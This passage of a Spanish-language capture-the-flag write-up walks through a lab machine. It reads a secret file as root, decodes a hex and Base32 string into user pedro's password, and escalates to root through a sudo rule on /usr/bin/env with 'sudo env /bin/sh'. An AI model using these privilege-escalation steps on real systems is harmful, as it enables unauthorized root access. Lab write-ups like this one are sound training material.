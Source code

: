 Info:

```
secret.txt
```

Por lo que leeremos el archivo `.txt`.

```shell
sudo cat /root/secret.txt
```

Info:

```
4E 5A 58 57 43 59 33 46 4F 4A 32 47 43 34 54 42 4F 4E 58 58 47 32 49 4B
```

Vemos que ese un valor hexadecimal que significa lo siguiente.

```
NZXWCY3FOJ2GC4TBONXXG2IK
```

Vemos que es una cadena encriptada de `Base32` si la decodificamos seria.

```
noacertarasosi
```

Por lo que si hacemos.

```shell
su pedro
```

Y metemos como contraseña esa cadena decodificada, veremos que es la contraseña del mismo y seremos el usuario `pedro`.

## Privilege Escalation

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for pedro on f09e53c187cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pedro may run the following commands on f09e53c187cf:
    (ALL) NOPASSWD: /usr/bin/env
```

Podemos ejecutar como `root` el binario `env`, por lo que haremos lo siguiente.

```shell
sudo env /bin/sh
```

Y con esto ya seremos `root`, por lo que habriamos terminado la maquina.
